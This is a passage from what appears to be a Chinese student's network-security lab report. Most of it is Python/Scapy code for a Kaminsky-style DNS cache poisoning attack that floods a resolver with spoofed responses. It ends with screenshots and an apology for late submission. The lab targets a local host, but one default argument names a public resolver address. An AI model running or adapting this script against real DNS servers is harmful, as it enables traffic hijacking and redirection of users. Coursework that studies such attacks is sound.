          DNS(qr=0,ad=1, qd=DNSQR(qname=domain,  qtype="A", qclass=1),))
        
    send(req)


# 为线程定义一个函数
def DNS_QR(target_server = "202.117.0.20",qd = "www.baidu.com"):
    ans = sr1(IP(dst=target_server)/UDP(sport=random.randint(1000,10000), dport=53)/DNS(rd=1,qd=DNSQR(qname=qd,qtype="A")),timeout = 5)
    try:
        if ans:
            if ans.an:
            #print(ans.show())
                print(ans.an.rdata)
                return ans.an.rdata
        else:
            return False
    except:
        print(ans)
        os.exit()
    

def DNS_sending(target_server = "202.117.0.20",domain="www.sahua1.club",iplist=[],times = 500):
    if len(iplist)==0:
        print("no ip!!!")
        return 
    
    #伪造回应包
    ID = []
    for i in range(times): 
        #ID.append(random.randint(0,65535))
        ID.append(i)
    
    fake_p = IP(dst=target_server,src=iplist)/\
      UDP(sport=53, dport=33333)/\
      DNS(id=ID,qr=1,ra=1,
          qd=DNSQR(qname=domain,  qtype="A", qclass=1),
          an=DNSRR(rrname=domain,ttl = 7200,rdata="1.1.1.1")
          )
    
    send(fake_p)
        
    
def start_poison(traget_DNS_server = "202.117.0.20",traget_domain = "www.sahua.club"):
    up_domain = traget_domain[traget_domain.find('.')+1:]
    #获取目标域名的上级权威服务器
    IP_list = Get_target_IP_list(traget_DNS_server,up_domain)
    print(IP_list)
    
    trytime = 0
    while(True):
        print(trytime,time.strftime("%Y%m%d %X", time.localtime()))
        
        #构造随机域名
        rand1 = random.randint(1,10000000)
        rand_domain = str(rand1) +"."+ up_domain
        print (rand_domain)
        
        #向受害DNS服务器发送解析请求
        t1 = threading.Thread(target=fake_q,args=(traget_DNS_server,rand_domain,), daemon=True)
        t1.start() # 开始线程
        t1.join()
        
        #开始碰撞
        DNS_sending(traget_DNS_server,rand_domain,IP_list,50)

        #测试结果是否成功
        answer = DNS_QR(traget_DNS_server,rand_domain)
        print (answer)
        if (answer=="1.1.1.1"):
            os.exit()
            print("成功!!!!")
        else:
            print("失败!!!!")
        
        trytime += 1
    return 

traget_DNS_server = "10.0.2.4"
traget_domain = "www.example.com"
up_domain = traget_domain[traget_domain.find('.')+1:]
print("up_domain",up_domain)

start_poison(traget_DNS_server,traget_domain)

```

在运行之前










# 由于遇到较大的技术问题以及近日各种考试，后续步骤遇到了一定的时间问题；会在第二天早上之前完成 吗？

届时将会发给助教以及及时更新在 https://github.com/leo-grayrat/cybersecurity-xjtu-26/blob/master/exp1/DNS%E5%AE%9E%E9%AA%8C.md

十分抱歉再次拖延！确实不熟悉 Linux 以及网络相关操作 qwq

11-16凌晨：这个人没救了
